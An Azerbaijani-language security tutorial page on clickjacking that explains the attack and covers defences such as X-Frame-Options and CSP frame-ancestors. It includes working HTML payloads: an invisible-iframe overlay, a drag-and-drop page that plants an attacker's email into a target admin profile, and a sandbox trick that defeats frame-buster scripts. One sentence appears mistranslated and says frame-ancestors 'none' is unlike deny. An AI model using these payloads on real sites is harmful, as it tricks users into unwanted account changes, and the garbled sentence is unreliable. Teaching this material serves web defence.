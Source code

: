 ```yaml
---
title: Clickjacking
---
```


### Clickjacking nədir

Clickjacking, istifadəçini görünməyən və ya başqa element kimi gizlədilmiş veb-səhifə elementinə klikləməyə aldadan hücumdur. Bu, istifadəçilərin bilmədən zərərli proqram yükləməsinə, zərərli veb səhifələrə baş çəkməsinə, etimadnamələri və ya həssas məlumatları təqdim etməsinə, pul köçürməsinə və ya onlayn məhsul almasına səbəb ola bilər.

### Formaların əvvəlcədən doldurulması hiyləsi

Bəzən səhifəni yükləyərkən GET parametrlərindən istifadə edərək formanın sahələrinin dəyərini doldurmaq mümkündür. Təcavüzkar bu davranışdan sui-istifadə edərək formanı ixtiyari məlumatlarla doldura və istifadəçinin Göndər düyməsini basması üçün klikləmə yükünü göndərə bilər.

### Sürüklə və Burax ilə formanı doldurun

Əgər istifadəçiyə bir formanı doldurmağa ehtiyacınız varsa, lakin siz ondan bəzi xüsusi məlumatları (məsələn, e-poçtunuz və ya bildiyiniz xüsusi parol) yazmasını birbaşa xahiş etmək istəmirsinizsə, siz ondan sadəcə olaraq idarə etdiyiniz şeyi yazacaq nəyisə sürüklə və buraxmağı xahiş edə bilərsiniz.

### Əsas Payload

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 470px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="https://vulnerable.com/email?email=asd@asd.asd"></iframe>
```

### Drag&Drop + Click payload

```html
<html>
  <head>
    <style>
      #payload {
        position: absolute;
        top: 20px;
      }
      iframe {
        width: 1000px;
        height: 675px;
        border: none;
      }
      .xss {
        position: fixed;
        background: #f00;
      }
    </style>
  </head>
  <body>
    <div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">
      .
    </div>
    <div
      style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;"
      class="xss"
    >
      1. Click and press delete button
    </div>
    <div
      style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;"
      class="xss"
    >
      3.Click me
    </div>
    <iframe
      sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts"
      style="opacity:0.3"
      src="https://target.com/panel/administration/profile/"
    ></iframe>
    <div
      id="payload"
      draggable="true"
      ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"
    >
      <h3>2.DRAG ME TO THE RED BOX</h3>
    </div>
  </body>
</html>
```

### XSS + Clickjacking

Əgər siz XSS-i işə salmaq üçün istifadəçidən hansısa elementə klikləməyi tələb edən bir XSS hücumu müəyyən etmisinizsə və səhifə kliklərə qarşı həssasdırsa, istifadəçini düyməyə/linkə klikləməyə aldatmaq üçün ondan sui-istifadə edə bilərsiniz.

## Clickjackingdən necə qaçınmaq olar

### Müştəri tərəfinin müdafiəsi

Clickjacking-in qarşısını almaq üçün aşağıdakı davranışların bəzilərini və ya hamısını yerinə yetirən skriptləri müştəri tərəfində icra etmək mümkündür:

- cari proqram pəncərəsinin əsas və ya yuxarı pəncərə olduğunu yoxlayın və tətbiq edin,
- bütün çərçivələri görünən etmək,
- görünməz çərçivələrə klikləməyin qarşısını almaq,
- istifadəçiyə potensial klik hücumlarını dayandırın və qeyd edin.

### Bypass

Frame busterləri JavaScript olduğundan, brauzerin təhlükəsizlik parametrləri onların işləməsinə mane ola bilər və ya brauzer hətta JavaScript-i dəstəkləməyə bilər. Hücumçuların frame qırmalarına qarşı effektiv həlli HTML5 iframe sandbox atributundan istifadə etməkdir. Bu _allow-forms_ və ya _allow-skript_ dəyərləri ilə təyin edildikdə və _allow-top-navigation_ dəyəri buraxıldıqda, iframe yuxarı pəncərə olub-olmadığını yoxlaya bilmədiyi üçün frame buster skripti zərərsizləşdirilə bilər:

```html
<iframe
  id="victim_website"
  src="https://victim-website.com"
  sandbox="allow-forms allow-scripts"
></iframe>
```

Həm _allow-forms_, həm də _allow-skript_ dəyərləri iframe daxilində göstərilən hərəkətlərə icazə verir, lakin yuxarı səviyyəli naviqasiya deaktiv edilib. Bu, hədəflənmiş sayt daxilində funksionallığa icazə verərkən frame-in məhv edilməsi davranışlarını maneə törədir.

Həyata keçirilən Clickjaking hücumunun növündən asılı olaraq sizə icazə vermək lazım ola bilər: _allow-same-origin_ and _allow-modals_ və ya daha çox. Hücum hazırlayarkən brauzerin konsolunu yoxlamaq kifayətdir, o sizə hansı digər davranışlara icazə verməli olduğunuzu söyləyə bilər.

### X-Frame-Options

X-Frame-Options HTTP cavab başlığından brauzerin səhifəni \<frame\> və ya \<iframe\>-də göstərməsinə icazə verilib-verilmədiyini göstərmək üçün istifadə edilə bilər. Saytlar, məzmununun digər saytlara daxil edilməməsini təmin etməklə, Clickjacking hücumlarından qaçmaq üçün bundan istifadə edə bilər. HTML məzmunu olan bütün cavablar üçün X-Frame-Options başlığını təyin edin. Mümkün dəyərlər bunlardır:

```
X-Frame-Options: deny (Recommended value)
X-Frame-Options: sameorigin
X-Frame-Options: allow-from https://trusted.com
```

Aşağıdakı məhdudiyyətləri yoxlayın, çünki brauzer onu dəstəkləmirsə, bu açılmayacaq.

Digər brauzerlər əvəzinə yeni CSP çərçivə əcdadları direktivini dəstəkləyir. Bir neçəsi hər ikisini dəstəkləyir.

### Məzmun Təhlükəsizlik Siyasəti (CSP) frame-ancestors direktivi

Tövsiyə olunan klikləmə mühafizəsi proqramın Məzmun Təhlükəsizliyi Siyasətinə frame-ancestors direktivini daxil etməkdir.

**Frame-ancestors-un** 'heç biri' direktivi davranış baxımından X-Frame-Options deny direktivinə bənzəmir (Heç kim səhifəni çərçivəyə sala bilməz).

Frame-ancestors 'self' direktivi geniş şəkildə X-Frame-Options sameorigin direktivinə ekvivalentdir (yalnız cari sayt onu çərçivəyə sala bilər).

Frame-ancestors trusted.com direktivi X-Frame-Options allow-fromdirective geniş şəkildə ekvivalentdir.
